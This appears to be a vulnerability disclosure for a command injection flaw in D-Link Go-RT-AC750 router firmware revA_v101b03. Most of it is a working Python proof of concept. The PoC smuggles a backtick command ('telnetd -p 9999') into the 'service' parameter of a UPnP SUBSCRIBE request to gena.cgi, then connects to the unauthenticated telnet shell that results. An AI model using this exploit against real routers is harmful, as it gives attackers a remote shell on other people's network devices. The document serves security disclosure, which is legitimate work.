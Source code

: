 # Go-RT-AC750 Command Injection Vulnerability

## General Information

Vendor: D-Link

Affected Product: Go-RT-AC750

Firmware version: revA_v101b03

Vendor Homepage: https://www.dlink.com/en/consumer

## Vulnerability description

D-Link Go-RT-AC750 revA_v101b03 was discovered to contain a command injection vulnerability via the service parameter at genacgi_main.

## PoC

```python
from socket import *
from os import *
from time import *

request = b"SUBSCRIBE /gena.cgi?service=`telnetd -p 9999` HTTP/1.1\r\n"
request += b"Host: 192.168.0.1:49152\r\n"
request += b"NT: upnp:event\r\n"
request += b"Callback: <http://192.168.0.1/>\r\n"
request += b"Timeout: Second-1800\r\n\r\n"
 
s = socket(AF_INET, SOCK_STREAM)
s.connect((gethostbyname("192.168.0.1"), 49152))
s.send(request)
 
sleep(10)
system('telnet 192.168.0.1 9999')
```

![image-20230531134402664](https://raw.githubusercontent.com/Tyaoo/PicBed/master/img/202305311344919.png)
